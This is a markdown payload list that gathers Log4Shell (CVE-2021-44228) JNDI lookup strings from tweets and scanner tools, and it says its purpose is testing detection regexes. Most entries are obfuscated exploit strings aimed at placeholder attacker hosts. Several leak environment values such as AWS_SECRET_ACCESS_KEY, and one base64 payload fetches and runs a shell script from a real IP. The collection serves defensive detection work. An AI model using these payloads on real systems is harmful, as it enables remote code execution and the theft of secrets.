 # Payload samples

This is a list of [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) payloads seen on my twitter feeds.

The goal is to allows testing detection regexes defined in protection systems.

## Sources & credits

* https://twitter.com/h4x0r_dz/status/1469663187079417857/photo/1
* https://twitter.com/ymzkei5/status/1469765165348704256
* https://twitter.com/sirifu4k1/status/1469524530255511552
* https://twitter.com/BountyOverflow/status/1470001858873802754
* https://twitter.com/entropyqueen_/status/1469961345848299520
* https://twitter.com/anthrax0/status/1470276303773663233
* https://twitter.com/log4j2rce/status/1469799982630944770
* https://twitter.com/11xuxx/status/1471236310299906050
* https://github.com/projectdiscovery/nuclei-templates/pull/3334/files
* https://github.com/PortSwigger/log4shell-scanner/blob/master/src/main/kotlin/burp/BurpExtender.kt#L70
* https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/src/main/java/log4j.java
* https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/src/main/java/burp/BurpExtender.java#L84
* https://github.com/fullhunt/log4j-scan/blob/master/log4j-scan.py#L52
* https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py#L9
* https://docs.google.com/document/d/15V4EmDcOl4Mog5-If-Mv3-ZoRcf9-RsGSWlqYte3zho/edit
* https://www.cyberkendra.com/2021/12/log4shell-advisory-resource-cheat-sheet.html
* https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html

## Value collections

* https://github.com/Neo23x0/log4shell-detector/tree/main/tests/test-cases
* https://github.com/whwlsfb/Log4j2Scan/tree/master/src/main/java/burp/poc/impl

## Values gathered

> When a source was not an image then values provided were added to the list below.

💡 Note that `:/` instead of `://` is effective too.

```text
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://1234.${hostName}.com}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}},
${${::-j}nd${::-i}:
${${::-j}ndi:
${${::-j}ndi:dns://${env:USERNAME}.c6roi3ia89k5kj1mes60cg5a1doyyyyyn.interactsh.com}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://{{callback_host}}/{{random}}},
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host/{{random}}},
${${lower:jndi}:${lower:rmi}://dslepf.dnslog.cn/tem}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:jndi}:${lower:rmi}://{{callback_Host}}/{{random}}},
${${lower:jnd}${lower:${upper:ı}}:ldap://...}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://xxx
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://{{callback_host}}/{{random}}},
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dslepf.dnslog.cn/tem}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://{{callback_host}}/{{random}}},
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${upper:p}://somesitehackerofhell.com/z}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.{{interactsh-url}}}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://1234.${hostName}.com}
${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://attacker_controled_website/payload_to_be_executed }
${jndi:${lower:l}${lower:d}a${lower:p}://attacker_controled_website/payload_to_be_executed}
${jndi:${lower:l}${lower:d}a${lower:p}://example.com/
${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}
${jndi:dns://${env:COMPUTERNAME}.uedo81.dnslog.cn/a}
${jndi:dns://${env:USERDOMAIN}.qnfw43.dnslog.cn/a}
${jndi:dns://${hostName}.uedo81.dnslog.cn/a}
${jndi:dns://aeutbj.example.com/ext}
${jndi:dns://{{callback_host}}}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.badserver.com} 
${jndi:ldap://${env:JAVA_VERSION}.domain/a}
${jndi:ldap://${env:USER}.attacker.server/}
${jndi:ldap://${env:user}.uedo81.dnslog.cn/exp}
${jndi:ldap://${hostName}.domain/a}
${jndi:ldap://${sys:java.vendor}.domain/a}
${jndi:ldap://${sys:java.version}.domain/a}
${jndi:ldap://45.155.205[.]233[:]12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC9bdmljdGltIElQXTpbdmljdGltIHBvcnRdfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0L1t2aWN0aW0gSVBdOlt2aWN0aW0gcG9ydF0pfGJhc2gK}
${jndi:ldap://dslepf.dnslog.cn/exp}
${jndi:ldap://somesitehackerofhell.com/z}
${jndi:rmi://a.b.c}
${jndi:rmi://{{callback_host}}},
j${::-nD}i${::-:}
j${EnV:K5:-nD}i:
j${k8s:k5:-ND}i${sd:k5:-:}
j${loWer:Nd}i${uPper::}
j${main:\k5:-Nd}i${spring:k5:-:}
j${sys:k5:-nD}${lower:i${web:k5:-:}}
jn${date:}di${date:':'}
jn${env::-}di:
```
